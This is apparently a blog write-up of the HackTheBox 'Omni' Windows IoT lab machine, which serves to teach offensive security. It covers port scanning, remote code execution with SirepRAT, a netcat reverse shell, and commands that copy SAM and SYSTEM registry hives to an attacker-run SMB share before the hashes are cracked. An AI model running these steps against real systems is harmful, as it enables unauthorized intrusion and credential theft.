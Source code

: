 ```yaml
---
layout: post
title: Omni - HTB Writeup
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-02-07
tags: [write up, hackthebox, windows]
categories: [Practice]
toc:  true
---
```


Omni is a Windows box but with the fun twist of being a small IoT device.

## Enumeration

### Nmap

Performing an Nmap scan reveals the following ports open on the remote host.

```shell
# Nmap 7.92 scan initiated Sat Feb  5 09:05:31 2022 as: nmap -sC -sV -p- -o allnmap -v -Pn 10.10.10.204
Nmap scan report for 10.10.10.204
Host is up (0.058s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
|_http-title: Site doesn't have a title.
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.92%I=7%D=2/5%Time=61FE849C%P=aarch64-unknown-linux-gn
SF:u%r(NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines
SF:,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xf
SF:b`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\
SF:x1c\xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb  5 09:08:31 2022 -- 1 IP address (1 host up) scanned in 180.72 seconds
```

Going to the site at 10.10.10.104:8080 gives us a login site for a site called "Windows Device Portal". This is good information!

Googling for "Windows Device Portal Exploit" (super complicated I know) gives us a result for a tool called [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).

## Exploitation

### Remote Code Execution

Using SirepRAT, we can execute code on the remote machine and receive a remote shell on the target machine!

To begin, we are going to do the tried and trusted http server hosting through Python and upload nc.exe to the victim host.

```shell
sudo python3 -m http.server 80
```

![NCexe](https://mitchelldstein.github.io/assets/images/Omni/UploadNC.png)

Once nc.exe is uploaded to the host we can execute and receive a reverse shell on the victim!

![RCE](https://mitchelldstein.github.io/assets/images/Omni/SirepRAT1.png)

![Shell](https://mitchelldstein.github.io/assets/images/Omni/Shell1.png)

## User Enumeration

We all know the reason we are here, we want flags. Looking through the file system we can find the user directory and perusing through that gives the user flag.

![User Flag](https://mitchelldstein.github.io/assets/images/Omni/FlagUser.png)

This isn't the flag we are expecting.. What is this? Doing some research it seems we will need the user password to decrypt the "Password" field.

Looking into how to to get hashes from a local Windows machine I found the registry and system memory hold these passwords. We are going to skip system memory and use the SAM entry to find the hashes we desire.

Impacket-Secretsdump has a very useful `-SAM` option to parse through SAM hive entries. Perfect!

### Gathering Password Hashes

Impacket requires the SAM, security, and system registry entries for this exploit to work.

To get these to our local machine we can load up the Impacket-SmbServer and connect on the victim computer.

On the Kali machine:

```shell
$ impacket-smbserver share . -smb2support -username yo -password yo
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the Windows IoT machine:

```shell
net use \\10.10.14.19\share /u:yo yo
```

![System reg](https://mitchelldstein.github.io/assets/images/Omni/System.png)
![SAM reg](https://mitchelldstein.github.io/assets/images/Omni/Sam.png)
![Security reg](https://mitchelldstein.github.io/assets/images/Omni/Security.png)
![Hashes](https://mitchelldstein.github.io/assets/images/Omni/Hashes.png)

### Cracking Hashes

We will now use John to crack these hashes against rockyou.txt

![John](https://mitchelldstein.github.io/assets/images/Omni/John.png)

Nice! We got the password for the user "app". Using this we can finally log into the web-app side of this machine.

## Web App

With the "app" user, we can use the web-app interface to run commands. Under Processes we can find a Run Command window. We are going to repeat the reverse shell command we used before to get a reverse shell as the app user.

![WebApp](https://mitchelldstein.github.io/assets/images/Omni/WebApp.png)
